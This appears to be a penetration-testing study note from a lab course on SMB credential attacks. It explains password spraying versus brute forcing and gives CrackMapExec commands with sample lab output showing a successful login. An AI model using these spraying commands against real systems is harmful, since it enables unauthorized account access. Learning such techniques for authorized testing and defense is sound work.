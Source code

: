 
# Protocol Specifics Attacks

If null session is not allowed, we will need credentials. We can get credentials with [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack).

## Brute Forcing and Password Spray

**Brute Forcing**
- Can lock out an account if hit threshold

**Password Spraying**
- Better option
- Try with list of usernames and one common password
- Try more than one password if know the lockout threshold

### CrackMapExec (CME)
- Execute password spraying
- Can target multiple IPs with many users and passwords
- `-u` for user or user list
- `-p` for password or password list
- CME exits after a successful login is found. Use `--continue-on-success` to continue spraying even after a valid password is found
-  for non-domain joined computer need to use the option `--local-auth`

#### Domain joined computer
```shell
crackmapexec smb <% tp.frontmatter["RHOSTS"] %> -u <user list> -p '<password>'
```

#### Non-domain joined computer
```shell
crackmapexec smb <% tp.frontmatter["RHOSTS"] %> --local-auth -u <user list> -p '<password>'
```

**Example**
```shell-session
BluePho3nix@htb[/htb]$  crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```
